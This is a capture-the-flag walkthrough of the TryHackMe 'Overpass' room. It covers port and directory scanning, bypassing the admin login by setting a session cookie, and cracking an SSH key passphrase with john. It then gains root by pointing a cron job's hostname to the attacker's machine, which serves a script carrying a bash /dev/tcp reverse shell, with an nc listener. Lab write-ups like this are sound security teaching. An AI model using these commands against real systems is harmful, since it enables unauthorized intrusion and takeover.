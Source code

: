 ```yaml
---
title: Tryhackme - Overpass
layout: post
categories:
- TryHackMe
tag:
- security,
- easy,
- cron,
- owasp top 10
image: assets/img/overpass.png
image_alt: overpass
---
```


Overpass is easy room to get you started in CTF's.

## Recon
The first thing you will do is scan the target ip address to find open ports. We do it using **`Nmap`**.

```
$ nmap -sSV -v 10.8.81.166
```
![nmap](/assets/img/tryhackme/overpass/nmap.png)

As we see here, 2 ports are open. One is **`HTTP:80`** and the other is **`SSH:22`**. We can make a few guesses based on this. I think we should somehow find the necessary information for ssh connection from this site. And we have to get into the target machine using ssh. But this is just a guess for now.
Anyway, let's go to the website first and see what's up.

![homepage](/assets/img/tryhackme/overpass/homepage.png)

Overpass is a password manager. We saw 2 more pages on the main page, one "About Us" and the other "Downloads". Let's examine both.

### About Us
![aboutus](/assets/img/tryhackme/overpass/aboutus.png)

Here we see a few names that may be useful to us in the future.

### Download
![download](/assets/img/tryhackme/overpass/download.png)

We see two files here, one is the source code of overpass and the other is the script that runs this code.
We couldn't find much, let's look at the source codes of the pages.

![home](/assets/img/tryhackme/overpass/home_source.png)

This is really fun.
We couldn't find anything remarkable in the source code of the About Us and Downloads pages.

Let's do a gobuster scan to see if there are other pages on the site.
```
$ gobuster dir -u 10.10.79.124 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![aboutus](/assets/img/tryhackme/overpass/gobuster.png)

We found an interesting place **`/admin/`** page here, let's examine it.
I tried a few login attempts first, but it didn't work.

![aboutus](/assets/img/tryhackme/overpass/admin.png)

Let's take a look at the source code of the admin page.
Maybe we can brute force using the information here.

![aboutus](/assets/img/tryhackme/overpass/admin_id.png)

And there are several javascript files, let's examine them.

![aboutus](/assets/img/tryhackme/overpass/admin_file.png)

The **`main.js`** contains nothing but the hello world output.

![aboutus](/assets/img/tryhackme/overpass/main.png)

Let's examine **`login.js`** now.

![aboutus](/assets/img/tryhackme/overpass/login.png)

We found something here. A login function has been placed here. It says that if you enter wrong information, you will get incorrect credentials, but if it is entered correctly, cookie settings will be set as **`SessionToken and status0Cookie`**. Let's try to login using this cookie information.

![aboutus](/assets/img/tryhackme/overpass/settings.png)

After entering the information, we refresh the page and we are inside.
We come across an **`SSH key`**, but there is an article before it.

![aboutus](/assets/img/tryhackme/overpass/admin_on.png)

Paradox was annoyed that James kept forgetting the password. And as punishment, he wrote the password as SSH Key.

![aboutus](/assets/img/tryhackme/overpass/ssh.png)

Let's find james' SSH password.
To crack the password of an rsa key, we need to follow these steps.
We create **`id_rsa file using nano`**. Copy and paste the rsa private key information into it. Then we change the permission settings using **`chmod`** so that ssh can use it.
Then we use **`ssh2john`** to bring this ssh key in a way that joh can crack, and then we find the password using **`john`**.

```
$ nano id_rsa
$ chmod 600 id_rsa
$ ssh2john id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

And we find the password **`james13`**
Now we can connect to james using this information.

```
$ ssh -i id_rsa james@10.10.79.124
```

And we're inside

![aboutus](/assets/img/tryhackme/overpass/james.png)

Let's see what's in james' folder.

```
ls -la
```

![aboutus](/assets/img/tryhackme/overpass/ls.png)

There are a few files that caught our attention **`todo.txt, user.txt`**
**`user.txt : user flag`**

![aboutus](/assets/img/tryhackme/overpass/user_flag.png)

Now let's take a look at **`todo.txt`**.

![aboutus](/assets/img/tryhackme/overpass/todo.png)

Important things are being talked about here. James keeps a password around here, but he said he used his own password manager.
There was something he wanted to talk to Pardox about. He also says how the build script works automatically in the system.

I examined the files again using **`ls -la`** and there is another file called .overpass, and when I looked inside, I found something like this.

![aboutus](/assets/img/tryhackme/overpass/pass.png)

This must be the password that James mentioned in todo.txt, but we don't know how he encrypted it. But he told us they did it using their own password manager. So why don't we go back to the website and examine the source code of the overpass?
What I noticed when I reviewed the code is this.

![aboutus](/assets/img/tryhackme/overpass/source.png)

The algorithm they use according to the code they wrote is **`rotate-47`**

![aboutus](/assets/img/tryhackme/overpass/rot.png)

And here we found a password but I didn't understand where to put it.

But if we need to go back to todo.txt, James was talking about the continuous and automatic loading of the application there, why don't we look at the cronjob.

```
$ cat /etc/crontab
```

![aboutus](/assets/img/tryhackme/overpass/cron.png)

And here we get important information. As we can see, the root user automatically runs the file `overpass.thm/downloads/src/buildscript.sh` as **`cronjob`**.
In other words, a bash file is running automatically in the system, if we can change this file, we can place our own reverse shell.
I tried to open and change the file several times, but I couldn't do anything because it exceeded my authorization limits. But there was one thing I missed, overpass.thm is a hostname and if we manage to change this hostname and enter our own machine information, I can run my own buildscript.sh file.
For this I first check the contents of  **`/etc/hosts`**.

![aboutus](/assets/img/tryhackme/overpass/hosts.png)

Interestingly, James has the ability to modify this file.
Using my own machine ip, I change the overpass.thm line to**`"10.8.81.166 overpass.thm"`**
Then I will do the following in order on my own machine. I will create the /downloads/src/buildscript.sh file. And I will write revershell inside this file, then I will open an http.server just outside the downloads folder. At the same time, I will open a listener for nc using the same port as the port I entered in revershell. Then cronjab will connect to my machine and get the downoads/src/buildscript.sh file and then run it. The revershell inside it will also work and boom we'll go inside.

```
$ bash -i >& /dev/tcp/10.8.81.166/4444 >&1
```

```
$ mkdir downloads
$ cd downloads
$ mdir src
$ cd src
$ nano buildscript.sh
$ cd ../..
$ python3 -m http.server 80
```

```
$ nc -nlvp 4444
```
We are inside.

![aboutus](/assets/img/tryhackme/overpass/root.png)

And root flag .

![aboutus](/assets/img/tryhackme/overpass/root_flag.png)


It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.
